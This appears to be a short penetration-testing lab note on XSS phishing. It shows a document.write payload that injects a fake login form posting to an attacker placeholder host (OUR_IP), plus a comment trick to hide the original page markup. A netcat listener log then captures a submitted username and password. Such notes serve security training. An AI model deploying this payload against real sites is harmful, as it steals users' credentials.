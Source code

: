 ### XSS Payload

```jsx
document.write('<h3>Please login to continue</h3><form action=http://OUR_IP><input type="username" name="username" placeholder="Username"><input type="password" name="password" placeholder="Password"><input type="submit" name="submit" value="Login"></form>');
```

### Example:

![image.png](../Images/xss_image1.png)


If there's still a piece of the original HTML code left after our injected login form. it can be removed adding the HTML Comment.

```js
<PAYLOAD><!--
```

## Credential Stealing

```
nc -nvlp 80
listening on [any] 80 ...

connect to [10.10.16.64] from (UNKNOWN) [10.10.16.64] 41558
GET /?username=root&password=admin&submit=Login HTTP/1.1
Host: 10.10.16.64
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://10.129.201.162/
Upgrade-Insecure-Requests: 1
```
